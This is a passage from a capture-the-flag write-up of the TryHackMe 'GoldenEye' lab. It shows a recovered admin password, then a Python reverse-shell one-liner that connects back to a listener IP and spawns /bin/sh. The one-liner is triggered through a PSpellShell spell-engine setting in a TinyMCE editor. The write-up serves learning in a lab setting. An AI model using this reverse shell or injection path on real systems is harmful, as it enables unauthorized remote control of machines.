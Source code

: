 We discover that the admin password is `xWinter1995x!`

Let's login as admin

![Admin Settings](/assets/images/THM%20-%20GoldenEye/System%20Admin%20Settings.png)

We see that we have access to some admin settings

![Path to injection](/assets/images/THM%20-%20GoldenEye/Injection.png)

Let's try editing this command to be a reverse shell

```input
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.14.192",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Now we have to set the "spell engine" part to PSpellShell in the TinyMCE editor to trigger the payload
